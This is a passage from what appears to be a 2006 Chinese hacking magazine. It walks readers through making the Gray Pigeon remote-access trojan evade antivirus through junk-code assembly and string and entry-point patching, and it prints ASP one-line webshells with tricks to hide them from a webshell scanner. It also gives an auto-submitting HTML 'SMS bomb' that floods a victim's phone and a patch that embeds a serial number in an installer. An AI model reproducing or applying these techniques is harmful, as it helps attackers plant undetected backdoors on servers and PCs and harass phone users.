接着在“列”菜单中选择“列模式”，这样不仅可以进行行操作，还能进行列操作。因为每一列的宽度不同，所以要再次进入“列”菜单，选择其中的“转换到固定列”进行列宽调整，如图6所示。


图6

在出现的对话框中点击“扫描”按钮，程序会自动分析文件，给出合适的列宽，然后点击“转换”按钮调整列宽，如图7所示。


图7


图11

返回到处理界面后，可以看到各列的起始位置都相同。我们选择好除路径以外的内容，再次进入“列”菜单，点击“删除列”，如图8所示。


图8

这样就把多余的内容给删除了，剩下的就是KV安装程序中进行内存查杀病毒所需要的文件了。但这里有个问题，大家注意一下图4就不难发现，在截获的文件中有很多是重复的，下面我们就需要把这些重复的过滤掉，每个文件只留下一条记录。单击“文件”菜单，选择“排序”中的“高级排序/选项”，如图9所示。


图9

下面要设置一下排序条件。这里只需选中“删除重复”即可，如图10所示。


图10


图12

排序后的记录就不多了，一目了然。不过你不会一个个去单独Copy出来吧？其实用一个DOS命令就可以搞定了。将每一行都变成一个Copy命令，利用替换功能将“Copy ”添加到前部，把目标文件夹添加到后部，这样就构成了一个完整的Copy命令，如图11所示。“^p”是回车换行，我们可以点击“帮助”按钮获取特殊字符的表示形式。图12就是修改结果，将其保存为“.bat”（批处理）文件，最后执行该批处理即可获取所有需要的文件，手工调整一下目录就可以了。

文件被提取出来了，可有些文件很大，需要减肥。这里以“setup.exe”为例。


图13

利用资源修改软件Resource Hacker打开“setup.exe”，点开左边的“Bitmap”，可以看到很多图片，如图13所示。因为是位图文件，所以体积很大，我们可以试着删除一些，这样就可以达到减小文件的目的。每次使用该安装程序都需要输入序列号很麻烦，我们点开左边的“Dialog”可以找到输入序列号的对话框，直接把序列号输入其中就OK了，如图14所示。


图14


图15就是修改前后的文件大小对比，后者不到前者的八分之一，小了很多。到这里，内存查杀毒的功能就提取出来了。在测试过程中，我发现内存查杀病毒的文件夹必须位于临时文件夹，且文件夹名必须为“KV2006”方可正常执行，这可能是KV的安装程序做了设置。其实在KV中还有一些有用的工具，如图16所示。在安装完KV后我们可以利用上面的方法将其单独抠出来，这里就不详细说明了。


蝴蝶：现在使用灰鸽子黑防版的用户是越来越多了，因为它不但功能强大而且免费的，相比起网络上其他流传的版本，它的服务端没有经过任何处理，非常适合免杀爱好者修改、免杀。

- 适合读者：木马爱好者、免杀爱好者
- 前置知识：无

#### 黑鸽子免杀全分析

文/图 天涯衰草

本文以灰鸽子黑防版为蓝本，为大家介绍如何通过大多数杀毒软件的方法。首先运行灰鸽子黑防版的客户端程序，点击工具栏中的“配置服务程序”按钮，按照自己的要求进行配置，不过注意在“高级选项”中一定要选择“不加壳”选项。服务端配置完成后，下面就开始进行免杀操作。

##### 添加服务端字节

接着要对服务端进行加花处理，为了避免不必要的麻烦，我们先对服务端添加字节。运行ZeroAdd，点击“Pick a file”按钮选择配置的服务端，接着在“Enter a name for the new section”选项中设置新建的区块名称，名称可以随便起，但只能是英文，我这里设置为hake，然后“Enter # of bytes to add (in hex)”选项中填入增加的字节数，字节数不需要设置得太大，这里我们设置为100，最后点击“Add new section!”按钮，就可以进行区块的添加，如图1所示。


接着我们运行LordPE，在弹出的窗口中点击“PE编辑器”来选择服务端，接着点击“区段”按钮，在弹出的“区段表”窗口找到“Name”名称为“hake”的这一项，地址为000C2000，接下来我们要在这里添加花指令，如图2所示。


##### 更改关键字

运行Ollydbg，点击工具栏中的“打开”按钮载入刚刚生成的服务端。首先我们对服务端的关键字进行更改，因为这些关键字很多都被杀毒软件厂商作为特征码进行了记录。在程序的入口点击鼠标右键，选择“查找”选项中的“所有参考文本字符串”命令（如图1所示），然后程序会弹出一个名为“文本字符串参考位于”的窗口，在这个窗口中的“反汇编”项目中我们会发现很多ASCII编码的文本字符串，如图3所示。接着再点击鼠标右键中的“反汇编窗口中跟随”命令，返回Ollydbg主窗口，在反汇编项目中找到ASCII编码的字符串，在它上面点击鼠标右键，选择“二进制”中的“编辑”命令，在弹出窗口的“ASCII”中我们使用大小写替换法，将原有内容中的大写字母改为小写，小写字母改为大写，比如将IEXPLORE.EXE改为IeXPl0RE.EXE，然后我们按照上面的方法对其他的ASCII编码字符串进行修改，如图4所示。


图3


图4

###### 加花

> 光靠修改服务端中的关键字，很难完全通过杀毒软件的查杀，因为现在的杀毒软件都有多套特征码，下面我们通过修改文件头和加花等方法进行免杀操作。虽然现在网上有很多加花工具，但是通过工具进行加花不一定每次都能成功，所以最好还是手工加花。

首先通过反汇编工具Ollydbg载入服务端，程序自动停留在程序的入口点004A1E48，如图5所示。


图5

在程序的尾部找到一段空白处，如004A21EA。从此处向下选择多行，点击鼠标右键选择“二进制”菜单中的“使用NOP填充”命令，将这些代码进行填充。然后点击右键菜单中的“汇编”命令，依次在“汇编”窗口中写入下面这段花指令。

```asm
push ebp
mov ebp, esp
push -1
push 111111
push 222222
mov eax, fs:[0]
push eax
mov fs:[0], esp
pop eax
mov fs:[0], eax
pop eax
pop eax
pop eax
pop eax
mov ebp, eax
jmp 004A2218
```

##### 修改文件头

加花完成后，我们开始修改文件头，然后返回原来的入口点，即004A1E48。我们将入口点的3行代码转移到其他空白地址。这里我们选择入口点的3行，然后点击右键菜单并选择“复制”菜单中的“到剪贴板”命令，如图6所示。


图6

复制完成后，点击鼠标右键并选择“二进制”菜单中的“使用NOP填充”命令，将这3行代码进行填充。然后回到004A2218处，点击右键菜单中的“汇编”命令，依次在“汇编”窗口中将刚刚复制的3行代码写入。最后还需要在第4行代码后添加一句“jmp 004A1E50”，从而使程序能够跳转回原来的第4行代码，保证程序的连贯性。

修改完成后，我们来进行文件的保存。选择右键菜单中的“复制到可执行文件”，接着在它的子菜单中选择“全部修正”命令，如图7所示。


图7

接着弹出一个标题为“复制所选到可执行文件”窗口，我们点击其中的“全部复制”按钮，最后在弹出的新窗口中点击鼠标右键，接着点击“保存文件”将我们修改的程序另存为即可。

由于刚刚添加了花指令，程序的入口点被修改了，这里我们需要利用刚刚使用过的LordPE来更新程序的入口点。运行LordPE，点击“PE编辑器”按钮选择刚刚修改好的程序文件，我们在“入口点地址”处将原来的入口点“004A1E48”更改为现在的入口点“004A21EA”，然后点击“保存”，如图8所示。


##### 更改服务端

经过上面的这些免杀处理后，确认服务端已经不会被卡巴斯基、金山毒霸、瑞星、江民等查杀了。现在我们要将这个免杀的服务端充分加以利用。由于这个免杀服务端已经写入了配置信息，如果别人想使用的话，就需要将他的配置信息写入到服务端中，下面我们就来看看如何将自己的配置信息写入到服务端中。

- 1. 插入自己的配置信息
- 2. 制作免杀的服务端“母体”

用户首先通过灰鸽子黑防专版配置一个属于自己的服务端，接着运行PE Explorer并选择刚刚配置的服务端。然后点击工具栏中的“资源查看/编辑器”→“RC数据”→“HACKER”选项，在右侧窗口中会出现一串没有规律的字符串，这就是我们所需要的配置信息。复制后再打开免杀服务端并粘贴覆盖原有配置信息，如图9所示。最后确定退出后就完成了木马服务端的“为我所用”操作。

如果用户觉得上面的操作比较复杂的话，我们可以直接将这个免杀的服务端改为服务端“母体”，这样用户就可以“一劳永逸”地进行使用了。运行Resource Hacker，在资源树中选择“RC数据”中的“HACKER”选项，删除其中为“0”的项目，如图10所示。


完成操作后，点击“文件”菜单中的“另存为”命令，将其重命名为CServer.dat，最后将其复制粘贴到灰鸽子黑防版所在目录的“Cache”文件夹，替换原来的CServer.dat即可。

#### 菜鸟也要自己做永不过期短信炸弹

我们一般玩的短信炸弹都是有时间限制的，一般过不了几天就无法使用了。现在我就教你制作一个简单的万能手机炸弹，可以说是永不过期。

我们先来看看这个页面 http://mo.bokee.com/special/feixun/reg.php 。这是移动公司自己搞的活动，发送短信速度可以说是“相当”快，最适合做短信炸弹了。让我们来看看它的源代码，我截取了其中比较关键的部分。

```html
<input name="mobile" type="text" class="ver2input" ... />
<input name="nextsetp" type="hidden" id="regsetp" value="2" />
<input ... name="input" type="submit" value="下一步" />
```

看来这就是控制短信发送的源代码了。下面看我构造的一段代码。

```html
<html><head> 菜鸟炸弹……
<form action="http://mo.bokee.com/special/feixun/reg.php" method="POST">
<input value="手机号" name="mobile" />
<input name="nextsetp" type="hidden" id="regsetp" value="2" />
<script>this.document.forms[0].submit();</script>
</form></body></html>
```

简单吧，这样我们就构造出了一个网页，当你在“手机号”处填写需要攻击的号码后，保存为网页，打开后可以自动填写手机号并发送，速度非常快。本来我还打算加上每秒自动刷新的代码，但是翻阅过往的《黑客防线》，发现已经有人写过了，这里不再赘述。

蝴蝶：现在有不少朋友对“免杀”非常感兴趣，对于灰鸽子的免杀，我们也介绍过很多次了。不过对于字符文件型的木马免杀，很多朋友还处在迷茫阶段，为此我们准备了这篇文章，希望能解救困惑的朋友于水火之中。

- 适合读者：入侵爱好者、黑客爱好者、免杀爱好者
- 前置知识：无

## 对ASP木马免杀的研究

文/图 萍水相逢（TTFCT）


现在的杀毒软件越来越厉害了，国内的瑞星、江民、金山，国外的卡巴、MCAFEE、诺顿，就这几个软件，已把我们的“马儿”无情地挡在了门外。前不久，又出来一个叫“雷客图ASP站长安全助手”的工具，利用此工具再配合那几种杀毒软件，小马几乎连个身都会被抓住。要想安全进入系统，谈何容易啊。所以，写此文的目的就是让我们用巧妙的方法打开这扇门，通向黑客的顶峰！

##### 一句话查杀

通常我们研究一样东西，都会从常规思路出发，当发现此路不通，我们才不得不另辟蹊径。首先看看我们的一句话木马，以下是我们最常用的三种小马。

```
1. <SCRIPT RUNAT=SERVER LANGUAGE=JAVASCRIPT>try{eval(Request.form('#+'))}catch(e){}</SCRIPT>
2. <%Execute(Request.form('#'))%>
3. <%Eval Request("#")%>
```

将这三个文件放在同一个目录下（这里使用的目录是TTFCT），用瑞星、江民、金山、卡巴、MCAFEE、诺顿进行查杀，发现这几个杀毒软件均不杀。不过不要高兴得太早，我们用“雷客图ASP站长安全助手”来查杀一次。启动IIS，运行“雷客图ASP站长安全助手”进行全站扫描，得到图1所示结果。


现在你还能免杀么？只要管理员仔细一看，稍微懂一点ASP的就会把我们的后门无情地删掉。

##### 一句话免杀

如果要为一句话木马免杀，我们可以采取以下方法来试验。

### 1. 利用数据库插入一句话木马

我们随便新建一个数据库，建立一个表、一个字段，在其中插入一句话木马`<% eval request("#") %>`，如图2所示。


然后将文件后缀改为ASP，存为database.asp。此时用LAKE2的客户端进行连接，测试能正常使用，如图3所示。


用“雷客图ASP站长安全助手”进行查杀，发现同样被杀，如图4所示。


### 2. 利用Unicode精心构造一句话木马

看了LAKE2的ASP数据库插马小议，有那么一点点想法，抱着试一试的态度看这种所谓的对一句话木马的突破，能否过“雷客图ASP站长安全助手”。按LAKE2的意思就是把ASP代码先转化为Unicode然后再插入数据库，不过这种转换要精心构造才能成功，于是我下了一个LAKE2工具，构造一句话的Unicode代码，然后将代码插入数据库中，如图5、图6所示。


图6

再用“雷客图ASP站长安全助手”查杀，发现同样被查杀，如图7所示。

| 文件 | 操作 | 提示 | 时间 |
|---|---|---|---|
| ttfct/unicode.asp | Execute | exec... | 2006-6-19 19:41:32 |
|  |  |  | 2006-6-19 19:42:28 |

图7

### 3. 利用DBOWNER下的LOG备份，来备份一句话

相信大家在入侵过程中，都接触过DB下的LOG备份，一般情况下，我们都能备份成功，在浏览器中直接访问会得到如下情况，如图8所示。


图8

这种备份下的一句话当然能成功连接，不过测试专杀工具后，我们再次失望，如图9所示。

| 文件 | 操作 | 提示 | 时间 |
|---|---|---|---|
| ttc/t/log.asp | Execute | exec... | 2006-6-19 19:55:27 |
|  |  |  | 2006-6-19 19:55:32 |

图9

### 4. 利用微软小漏洞将一句话木马藏于s.\文件夹中

这个漏洞很早就被人发现了，相信大家也在利用此漏洞隐藏自己的木马了。

> 建立此文件夹的方法是切换到DOS下，输入“md s.\”。删除“s.\”文件夹的方法是“rd s..\ /s”，然后再输入y就可以了。

下面我们把bin.asp copy到s.\文件夹，如图10所示。


图10

此时我们在浏览器中按以下方式访问http://127.0.0.1/ttfct/s../bin.asp，再利用冰狐浪子的客户端进行连接，成功！如图11所示。这里再次使用“雷客图ASP站长安全助手”进行查杀，OK，躲避成功！


图11

也许还会有人说，把一句话木马以十六进制的形式加入GIF或JPG后，然后使用`<!--#include file="XXX.JPG"-->`进行调用，也可以达到免杀的效果。具体行不行，我们测试了就知道。首先用UltraEdit-32打开一个JPG文件，然后选择十六进制编辑，将一句话代码`<% eval request("#") %>`转化为十六进制复制，然后粘贴到JPG文件末尾，如图12所示。


图12

然后我们将此JPG文件保存为add.jpg，新建一个ASP文件命名为picture.asp，并在其中加入以下代码：

```
<!--#include file="add.JPG"-->
```

我们发现，这种方法确实能让木马正常运行，不过它过不了专杀，如图13所示。

| 文件 | 操作 | 提示 | 时间 |
|---|---|---|---|
| ttc\add.jpg | Eval | eval函数可执行任意ASP代码... | 2006-6-19 20:27:24 |
|  |  |  | 2006-6-19 20:27:26 |

图13

看看我们得到了什么提示：

> eval()函数可以执行任意ASP代码，被一些后门利用。其形式一般是：eval(X)。但是javascript代码中也可以使用，有可能是误报。该文件被picture.asp文件包含执行。

对于用“雷客图ASP站长安全助手”来查ASP木马的管理员来说，这种方法更容易引起他的怀疑，本来还算是一种不错的隐藏手段，然而在这种专杀的作用下，我们的木马显得那么软弱无力。

在那还看到两位兄弟的做法，其中一个说：把文件属性改为系统+隐藏后就可以过这个专杀；另一位说：找一个较深的目录，把ASP木马放进去就可过专杀。其实这都是不可能的，等会我们分析它的代码就知道了。另外有兄弟提出对一句话使用ENCODE加密来过这一…个工具，不过这种方法也是不行的。“黑客图ASP站长安全助手”会报加密，如图14所示。

| 特征码 | 描述 |
|---|---|
| (vbscript\|jscript\|javascript).Encode | 似乎脚本加密了，一般ASP文件是不是加密测试[解密] |

图14

在常规思路下，我们得出以下结论：一句话木马能过所有杀毒软件，但是要不被“黑客图ASP站长安全助手”所杀，我们暂时只有通过建立 S..\\ 文件夹的方法来躲过。

#### 针对性下的免杀分析

如何才能做到有针对性？那就是对这个专杀工具的代码进行研究，观察其运行原理，才能找出其破绽。下面请看代码，此扫描所用的文件是 `admin_scanshell.asp`。

代码第一部分：

```asp
<%server.ScriptTimeout = 600
Dim FileExt = "asp,cer,asa,cdx"   '// 指定扫描文件后缀类型
Dim Report, Sun, SumFiles, SumFolders
Sun = 0
SumFiles = 0
SumFolders = 1
if request.Form("path")="" then
  response.Write("No Hack")
  response.End()
end if
...
TmpPath = Server.MapPath("\\")&"\\"&request.Form("path")
%>
```

以上代码告诉我们：此工具只对四种文件类型“asp,cer,asa,cdx”进行扫描，当然你可以添加扫描类型，如后面加上“aspx,php”等。

代码第二部分：

```asp
<%
' 遍历处理path及其子目录所有文件
Sub ShowAllFile(Path)
Set FSO = CreateObject("Scripting.FileSystemObject")
if not fso.FolderExists(path) then exit sub
Set f = FSO.GetFolder(Path)
Set fc2 = f.files
For Each myfile in fc2
  If CheckExt(FSO.GetExtensionName(path&"\\"&myfile.name)) Then
    Call ScanFile(Path&Temp&"\\"&myfile.name, "")
  End If
Next
...
End Sub
```

```asp
Then  '// 使用CheckExt函数确定此文件是否在扫描范围内
Call ScanFile(Path&Temp&"\\"&myfile.name, "")
SumFiles = SumFiles + 1
...
Set fc = f.SubFolders
For Each f1 in fc
  ShowAllFile path&"\\"&f1.name
  SumFolders = SumFolders + 1
Next
Set FSO = Nothing
End Sub
```

对于第二部分，我作了比较详细的注释，这部分所起的作用就是遍历处理 path 及其子目录所有文件。程序通过 request 方法获得路径后，调用 `ScanFile()` 函数对指定文件进行扫描。

代码第三部分：

```asp
Sub ScanFile(FilePath, InFile)
If inFile <> "" Then
  infiles = "<font color=red>...文件包含执行</font>"
End If
Set FSOs = CreateObject("Scripting.FileSystemObject")
set ofile = fsos.OpenTextFile(FilePath)
filetxt = Lcase(ofile.readall())
If err Then Exit Sub
if len(filetxt)>0 then
  if instr(filetxt, Lcase("WScr"&DoMyBest&"ipt.Shell")) or ... then
    Report = Report & "<tr><td>...危险组件...</td></tr>"
    Sun = Sun + 1
  End if
  ' 检查 Shell.Application 等特征码
end if
End Sub
```

从这部分代码我们可以得知，此工具采用特征码技术对文件进行特征码检查，这有点类似广谱杀毒软件。对应的特征包括：“shell.application（对应的 classid 值）”“wscript.shell（和其相对应的 classid 值）”“eval”“execute”“(vbscript|jscript|javascript).Encode”“create object”。除此外程序还对使用 include 函数包含 JPG 的文件进行查杀。只要我们的 ASP 木马中有代码和其特征相符，则程序报毒。

#### 针对性免杀的突破方法

下面分析突破方法，要突破此 ASP 木马扫描工具我们有两条路可选择：

- 1. A：从文件名后缀上突破。对于 2000 系统，如果你有服务器权限，可以增加应用程序映射。具体方法是：选择站点→属性→主目录→配置→应用程序映射→添加……在可执行文件内填入 `C:\WINNT\system32\inetsrv\asp.dll`，扩展名可随便填（如 `.ttfct`），动词限制填 `GET, POST`。然后将 ASP 木马后缀名改为 `.ttfct`。
- 2. B：对于 Windows 2003 系统，利用 IIS 特性建立 `haha.asp` 文件夹，将木马后缀改成较怪的后缀（如 `.sys`、`.dll`、`.ch` 等）。

此时我们使用专杀工具查杀，发现已经不报毒了。

- 2. 从特征码上突破。对于 ASP 木马代码中含有 `wscript.shell`、`shell.application`、`Scripting.FileSystemObject` 及对应 classid 代码，可以通过字符串拆分/拼接修改。

```text
`server.createobject("shell.application")` → `server.createobject("she"&ttfct&"ll.application")`

`CreateObject("wscript.shell")` → `CreateObject("wscr"&good&"ipt.shell")`
```

木马一公布，此马不久就被杀了，所以我写了个程序，采用随机码来对之处理。程序详见光盘。该程序使用 Replace 函数对几个特征码作了处理，由于采用了随机函数，每次生成的特征码不同，所以每个文件都有各自的特征，这样可以达到较好的免杀效果。

#### 打造终极黑防免杀木马

- 我们这里就以海洋2006正式版为例进行说明。
- 1. 只要能改的地方，我们都应该把它改掉，因为有些杀毒软件将之视为特征码。改掉它对我们没有坏处。如图18、图19所示。
- 3. 修改：用查找→替换功能将所有的 `pageName` 替换为 `hf`，然后将 `Const showLogin = "";` 改为其他变量名等。

适合读者：网络爱好者、木马爱好者

前置知识：无

#### 木马免杀原理详解

文／图 幽游[SUS]

首先来简单了解一下杀毒软件查杀病毒的原理，当前杀毒软件对病毒的查杀主要有特征代码查杀法和行为监测法。其中前一个方法比较古老，又分为文件查杀和内存查杀。杀毒软件公司拿到病毒样本后，定义一段病毒特征码到病毒库中，然后与扫描的文件比对，如果一致则认为是病毒；内存查杀则是载入内存后再比对。第二种技术较新，它利用的原理是某些特定的病毒会有某些特定的行为，以行为来判定病毒。

##### 免杀简法

- 1）文件免杀：加花／修改文件特征码／加壳／修改加壳后的文件。
- 2）内存免杀：修改特征码。
- 3）行为免杀。

### 1. 加花

加花是文件免杀的常用手段。加花原理就是通过添加花指令（一些垃圾指令，类似加1减1之类的无用语句）让杀毒软件检测不到特征码。加花可以分为加区加花和去头加花。一般加花工具使用加区加花，当然我们也可以手工加：先用 Zeroadd 添加一个区段，然后在新区段里写入花指令，跳转到原入口；去头加花，就是先 NOP（汇编里的空操作）掉程序的入口几行，然后找到下方 0000 区，写入 NOP 掉的代码和一些花指令，再通过 JMP（汇编里的无条件跳转）跳到原入口。

举个例子说明一下去头加花，如图1所示。这是 PcShare 服务端入口处的一段代码，原入口地址是 00403D7D，因为是演示，我就用两句最简单的垃圾代码做示范。如果要使用花指令，大家可以自行编写，如图2所示。

```text
图1：反汇编代码片段（入口附近代码）
```

```text
图2：插入NOP/花指令后的代码片段
```

> “push eax；eax 寄存器压入堆栈”  
> “pop eax；eax 寄存器弹出堆栈”

先将入口两句用 NOP 填充，然后找到一段 0000 区记下新入口地址 0040443C，如图3所示。写入刚刚 NOP 掉的入口两句和花指令，以及跳转到原入口的指令，如图4所示。

```text
图3：新入口地址定位代码片段
```

```text
图4：写回入口与跳转指令代码片段
```

把修改好的代码保存，用 PEditor 把入口地址修改为新入口 0040443C 就完成了，代码执行时将从新入口开始，先执行花指令然后跳转到原入口执行真正的程序，很简单吧？加区加花与其相似，主要是怕程序的 0000 区不足，所以先用工具新加一个区，在新区里写入花指令，其他的和去头加花一样，这里就不演示了。

## 2. 特征码定位

加花以后一些杀毒软件就认不出了，但有些比较强悍的杀毒，比如司机大叔（卡巴斯基）可能还是能查出来，这时就要定位特征码然后修改了。要修改首先必须知道特征码在哪里，所以需要先定位特征码，这是个难点，特别是复合特征码的定位。

特征码定位主要有两种方法：直接替换法、二叉数法。

直接替换法是最早开始出现的一种特征码定位方法，按一定的字节数逐个替换原代码并保存，比如木马总共100字节，可以先把0-10个字节用0替换，保存，然后用杀毒软件扫描，不被查杀说明特征码已经被覆盖掉了；如果还被查杀则替换10-20字节，再保存，扫描……直到找出特征码。替换法的优点是容易理解，速度快（对文件特征码而言，特征码定位工具伯乐以及 CCL 的手动方式就是利用的替换法原理，文件特征码定位经常使用的就是这种方法）。但是对于内存特征码的定位，这种方法就不太实用了，每次替换以后都要载入内存再扫描，如果木马较大，替换生成的文件会非常多，每个都要载入内存，花费太多时间。除此之外它还有一个非常大的局限性，就是只能确定只有一处特征码的情况（某种特定情况下的多特征码也是适用的，下面的第3种情况将有讲述）。杀毒软件还有别的定位特征码的机制，比如有的杀毒定义了 a,b 两处特征码，只要 a,b 有一个存在便报毒，只有加大替换范围直到两处同时被替换才不报毒。如果两处距离比较远，定义出的范围将非常粗糙，很明显直接替换法将不再合适，这时第二种方法就有用武之地了。

二叉数法使用的原理是一半一半定位，CCL 的自动方式就是运用的这个原理。将待检测段一分为二，分别替换并生成两个文件 A 和 B，其中 A 是原文件后半部分被 0 替换后生成的，B 是前半部分被 0 替换的。杀毒开始查杀生成文件（如果是内存特征码定位则先载入内存再扫描内存），这时会产生4种情况。

- 1) A存在，B被删：这种情况说明 A 文件中特征码已经被替换掉，因此将 A 的被替换部分一分为二，起始偏移为 A 的偏移，再进行检测；
- 2) A被删，B存在：这种情况说明 B 文件中特征码已经被替换掉，因此将 B 的被替换部分一分为二，起始偏移为 B 的偏移，再进行检测；
- 3) A存在，B存在：这种情况说明没法定位 A 和 B 中有没有特征码，因此分别对 A 和 B 再一分为二进行检测；
- 4) A被删，B被删：这种情况说明两个区段都存在特征码，因此分别对 A 和 B 再一分为二进行检测。

对 A 再分时会将原来的 B 区段填充为 0，相当于去除 B 区段的影响，只考虑 A；同理对 B 再分时会将原来的 A 区段内容填 0，相当于去除 A 区段的影响，只考虑 B。

第1和2种情况对应的是只有一处特征码的情况，比较容易理解；第3种对应的是定义了 a,b 两处特征码的情况，但是和前面提到的不同：杀毒软件为避免误判，定义了 a,b 两处特征码，要 a,b 同时存在时才报毒。假设 a,b 分别存在于 A、B 中，a,b 不同时存在，杀毒对 A、B 均不报警，接下来该如何判断呢？举个例子说明一下：木马原来是“…a……b…”，第一次替换以后 A: “…a…000000”，B: “000000…b…”，现在 a,b 不同时存在，A,B 都不被杀，则分别对 A、B 再次一分为二，…a…b000，…a…000…，000……b…，…a000…b…，再次扫描就可以找到两处特征码的位置，如果还不行，再继续分，直到全部找到。

第4种对应的情况是杀毒软件定义了多处特征码，只要有一处符合就认定是病毒。还是以 a,b 两处特征码为例，第一次替换后的结果同3，两部分分开考虑，互不影响，相当于分解成两个单个特征码的情况；第二次替换后变成 000000…b000，000000…000…，000…000000，…a0000000000，依此类推，直到精确定位出所有特征码；如果有 N 处特征码就相当于分解成 N 个单特征码来定位。现在 N 一般小于等于 3，这种情况定位出的所有特征码必须全部修改了才能免杀。

二叉数法是个很不错的思路，可以解决大部分的问题，但是不是无懈可击呢？答案是否定的。可恶的杀毒软件还有一个杀手锏，那就是复合特征码，给我们定位特征码带来了很大的麻烦。复合特征码的定位机制是，先定义出 N 个特征码，只要里面某些特征码同时出现，便认为是病毒。举个简单例子说明一下：木马原来是 …a1…b1…c1…a2…b2…c2…（a1,a2 一样，加标号只是为了后面描述方便），只要 a,b,c 同时出现就认为是病毒。这该如何定位呢？原理很简单，也是利用替换再查杀的方法：先从后往前用 0 替换，假设每次替换量增加 1000 字节，开始一直显示是病毒，直到替换到地址 13140040（为叙述方便随便说的一个地址）时替换的字节达到 15000 个，即 …a1…b1…00000000，两个 c 都被替换掉了，此时显示不是病毒，由此可知特征码 c1 就在 13140040 后面 1000 字节内。减小替换字节数，比如改为替换 14900 字节，即精度改为每次替换减少 100 字节，还是无毒则减为替换 14800 字节，不断重复……直到精确定位出 c1 的位置。如果改为从前往后替换，则可以定位出 a2 的位置。其他特征码的定位可以利用已经定位到的 c1、a2，把其中一个用 0 替换，比如 c1，从后往前就可以定位出 c2，直到定位出所有特征码。

其实原理并不复杂，但是真正手动操作起来却是非常麻烦的，我们可以利用 MYCCL，它的原理与我们介绍的很相似，具体操作可以看 MYCCL 的帮助。还有一种方法更科学，原理相同，但是替换的字节数不是等量增加的，而是以 2 的 n-1 次方增加的：第一次替换 1 字节，第二次 2 字节，第三次 4 字节……减小时也按照这种规律。这种替换方法有点类似于二叉数法，可以更快定位出特征码的位置，我想这也是 MYCCL 在复合特征码定位方面应该改进的地方吧。

复合特征码虽好，大家也不用害怕，以为所有杀毒软件都在使用复合特征码。定义复合特征码需要单个特征码几倍的病毒库，不方便用户的升级，所以除了特别流行的病毒，厂商也没有必要做太多的复合特征码。

> 文件特征码的定位一般用直接替换法，可以借用 CCL 的手动定位；内存特征码定位一般用二叉数法，可以用 CCL 自动定位。对于 EXE 文件如果文件较小，可以两种方法结合。……再用 CCL 自动定位，很快就可以完成。

## 3. 特征码修改

特征码修改可能需要一点汇编知识，光盘里有常用的汇编语法介绍。关于特征码的修改，主要有直接修改法和跳转修改法两种。

直接修改法利用的是等效指令替换，比如 `add eax,0c` 等效于 `sub eax,-0c`。或者指令顺序的改变不影响执行效果，比如：

```asm
add eax,0c ; eax寄存器加上0c再赋给eax
add ebx,05 ; ebx寄存器加上05再赋给ebx
```

等效于：

```asm
add ebx,05 ; ebx寄存器加上05再赋给ebx
add eax,0c ; eax寄存器加上0c再赋给eax
```

还有一种是如果特征码是 ASCII 码，可以直接修改大小写；小写字母换成大写，大写的换成小写，如图5所示。

`"SOFTWARE\Borland"` 可以改成 `"sOfTwArE\BorLaND"`。大家可以学习一下最基础的汇编语法，这并不难，而且它可以使你对特征码的修改有更深的理解。

跳转修改法比较简单，主要原理是把有特征码的那段 NOP 掉，然后把 NOP 掉的语句写入空白的 0000 区，再通过 JMP 跳转连接起来，让杀毒找不到特征码，从而达到免杀的目的，如图6所示。

假设选中的 13143C58 到 13143C5C 是特征码，当然这段可以直接用修改法来处理，这里说下如何跳转，首先 NOP 掉 4 行特征码，如图7所示。

在下面找到一段 0000 区记下地址 1314CECF，如图8所示。

写入 NOP 掉的特征代码和跳转到特征代码后续语句的代码，如图9所示。

最后到 NOP 掉的原特征码段加入一句代码 `JMP 1314CECF` 跳到新加的代码区，如图10所示。

完成！这样便把特征码的位置改变了，并且没有影响代码的执行，只要特征码定位准了，绝对免杀！

> 文件地址指二进制文件的实际偏移地址；内存偏移指相对虚拟地址（RVA），一般等于文件偏移地址加基地址。通过定位特征码得出的文件偏移地址，载入内存后地址会变化，不再是文件特征码定位时的地址了，所以修改特征码不能忘记把定位出的地址转换为对应内存地址。

可以借助一个小工具 oc.exe 确定，然后再进行修改。WinHex、Uedit 这类 16 进制编辑器里打开显示的地址是文件地址，而 OD 这类动态汇编调试工具打开显示的则是内存地址。

##### 加壳

不用说了，用工具大家都会。加壳的原理是给原程序加上一段保护程序，有保护和加密功能；运行加壳后的文件是先运行壳再运行真实文件，从而起到保护作用。我想提醒大家的是，再好的壳用的人多了，还是会被杀的，所以可以努力学好 E 文，自己到国外的网站找加壳工具比较好。

### 1. 修改加壳后的文件

加壳以后程序入口处会有一段特殊代码，可以自己用 OD 打开不同加壳工具加过壳的文件，你会发现不同的壳开头那段代码是不同的，也可以说是壳的特征代码吧。对于常用的壳，杀毒软件可以脱掉壳再查杀，也就是所谓的穿壳技术。为了避免杀毒软件认出是加的哪种壳，我们可以加双壳，或者自己修改开头那段代码，从而让杀毒看不出是什么工具加的壳。这里我只讲一种修改方法，可以参照去头添加花指令，在空白区域加入一段别的壳的特征头，然后 JMP 跳到原入口，这样杀毒就会误判加壳工具，从而达到免杀的效果。

还有一种修改壳的方法就是修改 EP 段的入口。用 PEiD 查一下加过壳的木马，可以发现 EP 段的地址，也就是区段入口。通过修改 EP 入口地址可以达到免杀的效果。利用的工具是 reoc（国内好像没提供下载的，我在国外网站找到的）放在光盘里了，具体使用方法自己去问 Google。

### 2. 行为免杀

这种杀毒的代表是绿鹰 PC 万能精灵。一般说来木马在运行以后会复制到系统目录下然后运行，原文件可能会自动删除。现在的木马一般是插入进程来访问网络的，在进程里可以看到被插入的进程；设置开机启动也是木马必须做的：写入注册表、加入服务、写入驱动等等，这些便是木马特有的行为。

可以用注册表监控、文件修改监控的工具来记录修改的文件、注册表，推测杀毒可能监控的是哪个行为，从而对应修改行为来达到行为免杀。这里有个简单的方法，行为杀毒是不会查系统的启动项的，我们可以把木马的启动项替换成非系统必须的开机自启动项就可以成功免杀了。至于其他的方法，大家可以自己再研究。

网上流传的入口加 1，就是用 PEditor 将木马入口地址加 1，有时也是可以达到免杀的效果。

要让自己的免杀木马尽量久地不被查到，最好选择比较老的木马来做。对新木马，杀毒库会紧急经常更新病毒库，而老的呢……不用说了吧。

##### 总结

一般免杀步骤是先定义内存特征码，修改内存特征码，加花指令做文件免杀。如果还被某些杀毒查杀，则定义文件特征码，修改特征码，接下来是行为免杀，然后加壳，再修改壳。内存免杀一般只要做瑞星的就可以了，其他的杀毒软件没有真正意义上的内存杀毒；比如卡巴斯基的内存扫描是文件快速扫描。一般加入花指令以后就可以躲过金山、瑞星、江民的文件查杀，万一有不过的就要定位特征码再修改。

